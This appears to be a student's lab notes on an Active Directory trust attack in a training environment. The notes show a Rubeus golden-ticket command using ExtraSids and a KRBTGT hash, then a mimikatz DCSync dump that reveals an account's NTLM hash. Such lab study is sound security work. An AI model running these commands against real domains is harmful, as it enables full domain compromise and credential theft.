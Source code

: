 From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.


`test if you  can access c$ in root domain's DC`
```powershell-session
ls \\academy-ea-dc01.inlanefreight.local\c$
```
## ExtraSids with Rubeas
Next, we will formulate our Rubeus command using the data we retrieved above. The `/rc4` flag is the NT hash for the KRBTGT account. The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.
```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
![[Pasted image 20250728000343.png]]
```powershell-session
PS C:\htb> klist
```


- Final step in the attack path: DCSync via the forged golden ticket
### EXPLOITING GOLDEN TICKET TO DCSync


if the user is  in the same domain:
```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
```

